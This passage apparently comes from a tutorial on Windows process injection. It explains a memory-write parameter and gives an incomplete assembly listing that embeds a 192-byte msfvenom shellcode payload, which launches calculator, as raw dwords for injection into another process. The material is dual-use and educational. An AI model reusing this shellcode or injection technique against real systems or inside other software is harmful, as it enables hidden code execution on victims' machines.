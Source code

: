 The value **0** is pushed to the stack for the **lpNumberOfBytesWritten** value. This is the equivalent to setting the value to NULL. Setting the value to NULL causes this value to be ignored.

The following code will write the data stored in the assembly program to the address stored in **EAX**. This example is incomplete but shows the process:

{% highlight text %}
[SECTION .text]
BITS 32
_start:
    jmp main

    ; Payload  
  injected_code:
    call injected_code_return        
    ; msfvenom -p windows/exec -a x86 --platform windows CMD=calc -f dword 
    ; No encoder specified, outputting raw payload 
    ; Payload size: 192 bytes 
    dd 0x0082e8fc
    dd 0x89600000
    dd 0x64c031e5
    dd 0x8b30508b
    dd 0x528b0c52
    dd 0x28728b14
    dd 0x264ab70f
    dd 0x3cacff31
    dd 0x2c027c61
    dd 0x0dcfc120
    dd 0xf2e2c701
    dd 0x528b5752
    dd 0x3c4a8b10
    dd 0x78114c8b
    dd 0xd10148e3
    dd 0x20598b51
    dd 0x498bd301
    dd 0x493ae318
    dd 0x018b348b
    dd 0xacff31d6
    dd 0x010dcfc1
    dd 0x75e038c7
    dd 0xf87d03f6
    dd 0x75247d3b
    dd 0x588b58e4
    dd 0x66d30124
    dd 0x8b4b0c8b
    dd 0xd3011c58
    dd 0x018b048b
    dd 0x244489d0
    dd 0x615b5b24
    dd 0xff515a59
    dd 0x5a5f5fe0
    dd 0x8deb128b
    dd 0x8d016a5d
    dd 0x0000b285
    dd 0x31685000
    dd 0xff876f8b
    dd 0xb5f0bbd5
    dd 0xa66856a2
    dd 0xff9dbd95
    dd 0x7c063cd5
    dd 0xe0fb800a
    dd 0x47bb0575
    dd 0x6a6f7213
    dd 0xd5ff5300
    dd 0x636c6163